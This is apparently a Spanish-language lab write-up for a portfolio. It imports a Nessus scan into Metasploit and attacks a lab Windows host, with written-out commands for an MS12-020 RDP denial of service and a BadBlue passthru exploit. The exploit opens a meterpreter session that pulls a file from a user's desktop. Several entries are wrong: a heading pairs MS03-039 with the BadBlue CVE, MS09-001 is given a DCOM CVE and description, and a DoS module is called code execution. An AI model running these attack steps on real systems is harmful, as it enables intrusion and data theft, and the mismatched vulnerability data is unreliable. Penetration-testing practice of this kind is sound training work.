# CVE-2007-6377 - BadBlue con Nessus y Metasploit

> Laboratorio realizado en un entorno local/controlado con fines educativos. No aplicar estas tecnicas sobre sistemas de terceros sin autorizacion expresa.

## Objetivo

Combinar analisis de vulnerabilidades con Nessus, importacion a workspace y explotacion en un entorno Windows vulnerable.

## Informacion general

- Categoria: Analisis y explotacion controlada
- Entorno: Kali Linux y maquinas vulnerables de laboratorio
- Formato: documentacion tecnica para portfolio GitHub

## Desarrollo de la practica

Alcance: 1.Análisis de vulns con Nessus-2.importación de archivo a workspace-3.Identificación y explotación de vulnerabilidad.

1.Análisis de vulnerabilidades con Nessus

1.1Análisis.

Realizado con Nessus el día 26/05/2025 entre las 15:14 y las 15:27

New Scan - Advanced Scan - Name: WindowsMetasploitable - IP: 10.0.2.101

Duración: 13 minutos


### Severidad

Critical: 3 (4.23%)

High: 3 (4.23%)

Medium: 11 (15.49%)

Low: 2 (2.82%)

1.2Vulnerabilidades.

2.Inicialización y Acceso a Metasploit

3.Configuración de Workspace y consulta Base de Datos.

4. Explotación


### 4.1 MS12-020: Ejecución Remota de Código en el Protocolo RDP


### CVE-2012-0002

CWE-94 (Code Injection)


### 9.3 (Alta)

Un atacante remoto no autenticado envía una secuencia de paquetes RDP malformados (puerto 3389), explotando un error en el manejo de memoria (uso después de liberación), lo que resulta en la ejecución de código arbitrario.


### Comandos para configurar el ataque

```bash

search CVE-2012-0002

use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

show payloads

set PAYLOAD 1665

set RHOSTS 10.0.2.101

show options

exploit

```

Esto significa que el exploit de Denegación de Servicio (DoS) fue exitoso, y el servicio RDP (puerto 3389) de la máquina objetivo se cayó, confirmando la vulnerabilidad MS12-020. En la siguiente imagen se ve la caída de la maquina objetivo:


### 4.2 MS03-039: Desbordamiento de Búfer en la Interfaz RPC (DCOM)


### CVE-2007-6377


### CWE-119


### 10.0 (Crítica)

El desbordamiento del búfer basado en la pila en la funcionalidad PassThru de ext.dll en BadBlue 2.72b y versiones anteriores permite a los atacantes remotos ejecutar código arbitrario a través de una cadena de consulta larga.

```bash

search CVE-2007-6377

use exploit/windows/http/badblue_passthru

set RPORT 9090

set LHOST 10.0.2.10

```

No hace falta configurar un payload ya que tiene uno por defecto.


### Ya tenemos una sesión de meterpreter abierta y funcionando

Una vez dentro utilizamos los siguientes comandos para navegar hasta el escritorio y descargarnos el documento deseado:

getuid

cd C:\\Users\\bob\\Desktop

```bash

ls

```

download archivo_importante.txt


### Ahora ya podemos salir de la sesión de meterpreter con el comando

exit

Vulnerabilidad | CVE | CWE | CVSS (v2.0) | Como se ejecuta

MS08-067: Ejecución Remota de Código en el Servicio Servidor | CVE-2008-4250 | CWE-94 (Code Injection) | 10.0 (Crítica) | Un atacante remoto no autenticado envía una petición RPC (Remote Procedure Call) especialmente diseñada a través del protocolo SMB (puerto 445). Esto explota un fallo de corrupción de pila durante la canonalización de la ruta en NetAPI32.dll, lo que permite la ejecución de código arbitrario con privilegios de SYSTEM.

MS09-001: Ejecución Remota de Código en el Protocolo SMB (Buffer Overflow) | CVE-2003-0528 | CWE-119 (Buffer Overflow) | 10.0 (Crítica) | Un desbordamiento de búfer en el servicio RPCSS (DCOM RPC interface) de Windows permite a un atacante remoto no autenticado enviar peticiones malformadas al puerto 135. Esto explota el código y ejecuta comandos arbitrarios con privilegios de SYSTEM.

MS17-010: Ejecución Remota de Código en SMBv1 (EternalBlue) | CVE-2017-0144 | CWE-119 (Buffer Corruption) | 9.8 (Crítica) | Un atacante remoto sin autenticación explota una vulnerabilidad de corrupción de pool de memoria en el servidor SMBv1 (puerto 445) enviando paquetes especialmente diseñados. Esto conduce a la ejecución de código en el kernel.

MS12-020: Ejecución Remota de Código en el Protocolo RDP | CVE-2012-0002 | CWE-94 (Code Injection) | 9.3 (Alta) | Un atacante remoto no autenticado envía una secuencia de paquetes RDP malformados (puerto 3389), explotando un error en el manejo de memoria (uso después de liberación), lo que resulta en la ejecución de código arbitrario.

MS06-070: Desbordamiento de Búfer en NetrWkstaUserPasswordChange | CVE-2006-4692 | CWE-119 (Buffer Overflow) | 9.3 (Alta) | Un atacante remoto no autenticado envía una petición RPC malformada al método NetrWkstaUserPasswordChange del Servicio Servidor, lo que provoca un desbordamiento de búfer y la ejecución de código arbitrario.

MS05-019: Ejecución de Código Remoto en el Stack TCP/IP | CVE-2005-0048 | CWE-119 (Buffer Overflow) | 9.3 (Alta) | Un fallo de validación en el stack TCP/IP permite que un atacante remoto no autenticado envíe paquetes IP manipulados para ejecutar código arbitrario con privilegios de SYSTEM.

MS04-011: Desbordamiento de Búfer en LSASS | CVE-2003-0533 | CWE-119 (Buffer Overflow) | 7.5 (Alta) | Desbordamiento de búfer basado en pila en ciertas funciones de Active Directory en el servicio LSASS (LSASRV.DLL). Un atacante puede explotarlo mediante el envío de un paquete especial, como fue el caso del gusano Sasser.

SMB Signing Disabled (Firma SMB Deshabilitada) | N/A | CWE-359 (Exposure of Sensitive Information) | 7.5 (Alta) | El sistema no requiere la firma de paquetes SMB, lo que permite ataques de Man-in-the-Middle (MiTM). Un atacante puede interceptar y modificar el tráfico o retransmitir la autenticación (Pass-the-Hash/Relay) para suplantar a usuarios.

FTP Service: Acceso Anónimo Permitido | N/A | CWE-285 (Improper Authorization) | 7.5 (Alta) | El servicio FTP está configurado para permitir la conexión y el acceso (generalmente de lectura) sin credenciales (acceso anónimo), exponiendo la estructura del sistema de archivos y potencialmente información sensible.

MS11-080: Elevación de Privilegios en el Controlador AFD | CVE-2011-2005 | CWE-20 (Improper Input Validation) | 7.2 (Alta) | Un atacante con acceso local ejecuta una aplicación maliciosa que explota una validación incorrecta de la entrada en el controlador de función auxiliar (afd.sys). Esto permite la ejecución de código en modo kernel y la elevación completa de privilegios.

MS05-051: Desbordamiento de Búfer en el Servicio Plug and Play (PnP) | CVE-2005-2120 | CWE-119 (Buffer Overflow) | 6.5 (Media) | Un desbordamiento de búfer en el servicio Plug and Play (a través de UMPNPMGR.DLL) permite a un atacante autenticado (o no autenticado en Windows 2000) ejecutar código arbitrario.

MS03-039: Desbordamiento de Búfer en la Interfaz RPC (DCOM) | CVE-2003-0528 | CWE-119 (Buffer Overflow) | 10.0 (Crítica) | Un desbordamiento de búfer en el servicio RPCSS (DCOM RPC interface) de Windows permite a un atacante remoto no autenticado enviar peticiones malformadas al puerto 135. Esto explota el código y ejecuta comandos arbitrarios con privilegios de SYSTEM.

Samba 3.0.20: Enumeración de Usuarios | N/A | CWE-200 (Exposure of Sensitive Information) | 5.0 (Media) | El servicio Samba está configurado para permitir la enumeración de nombres de usuario del sistema (a través de llamadas RPC o NetBIOS), lo que proporciona información valiosa para un atacante en la fase de reconocimiento.

Comando | Descripción

2.1 | msfdb init | Inicia y configura la base de datos de PostgreSQL utilizada por Metasploit. Si ya está iniciada, puede mostrar un mensaje de confirmación o simplemente proceder.


### 2.2 | msfconsole | Inicia la consola de Metasploit Framework.

# | Comando | Propósito

1. | workspace -a windowsmetasploitable | Crea un nuevo workspace llamado windowsmetasploitable y lo establece como activo para el proyecto.

2. | workspace | Verifica el workspace activo (windowsmetasploitable).

3. | db_import /home/kali/Downloads/WindowsMetasploitable.nessus | Comando de Importación: Carga el informe de Nessus a la base de datos del workspace activo.

4. | hosts | Lista todos los hosts (direcciones IP) y sistemas operativos importados en la base de datos.

5. | services | Lista todos los servicios (puertos, protocolos y versiones) abiertos y detectados en los hosts.

6. | vulns | Lista todas las vulnerabilidades encontradas y mapeadas a los CVE/exploits conocidos por Metasploit.

7. | creds | Muestra cualquier credencial o hash de autenticación que haya sido importado o descubierto durante el escaneo.

8. | notes | Muestra cualquier nota o metadato específico asociado a los hosts o servicios (ej. información de versión detallada).

## Evidencias visuales

### Captura 01



### Captura 02



### Captura 03



### Captura 04



### Captura 05



### Captura 06



### Captura 07



### Captura 08



### Captura 09



### Captura 10



### Captura 11



### Captura 12



### Captura 13



### Captura 14



### Captura 15




## Medidas defensivas y aprendizaje

- Mantener servicios actualizados y eliminar software obsoleto.
- Exponer solo los puertos necesarios y aplicar reglas de firewall.
- Usar segmentacion de red para aislar maquinas vulnerables o servicios criticos.
- Revisar logs de autenticacion, red y aplicacion tras cualquier prueba.
- Sustituir servicios inseguros por alternativas cifradas y soportadas.
- Aplicar el principio de minimo privilegio en usuarios, servicios y demonios.
- Documentar cada hallazgo con evidencia, impacto y recomendacion.

## Notas

- Se ha eliminado informacion personal y marcas de confidencialidad del documento original.
- Las rutas, IPs y credenciales que aparecen pertenecen a entornos de laboratorio o maquinas vulnerables preparadas para practica.
- Este README es la version limpia para GitHub; conserva los documentos originales solo en privado.
